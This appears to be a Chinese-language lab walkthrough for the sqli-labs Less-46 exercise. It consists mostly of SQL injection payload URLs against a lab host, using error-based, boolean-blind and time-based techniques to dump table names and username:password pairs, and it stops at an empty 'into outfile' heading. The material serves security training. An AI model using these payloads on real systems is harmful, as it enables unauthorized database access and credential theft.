 ### 报错注入3

```
爆表：
http://daishen.ltd:1112/Less-46/?sort=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+

暴列：
http://daishen.ltd:1112/Less-46/?sort=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+

暴值：
http://daishen.ltd:1112/Less-46/?sort=extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users))) --+

显示未完全：
http://daishen.ltd:1112/Less-46/?sort=extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelina')))) --+
```

### 布尔盲注

数据库第 1 位为：s

```payload
暴库payload
http://daishen.ltd:1112/Less-46/?sort=rand(left(database(),1)='s')
http://daishen.ltd:1112/Less-46/?sort=rand(left(database(),2)='se')
http://daishen.ltd:1112/Less-46/?sort=rand(left(database(),3)='sec')
http://daishen.ltd:1112/Less-46/?sort=rand(left(database(),4)='secu')

爆表paylaod
http://daishen.ltd:1112/Less-46/?sort=rand(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u')

爆列名payload
http://daishen.ltd:1112/Less-46/?sort=rand(left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i')

爆字段payload
http://daishen.ltd:1112/Less-46/?sort=rand(left((select username from users limit 0,1),1)='d')
```

### 延时盲注

数据库第一个字母的 ascii 码为 115，即`s`

```payload
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
?sort=rand(if(ascii(substr(database(),1,1))>115,1,sleep(1)))
```

### into outfile
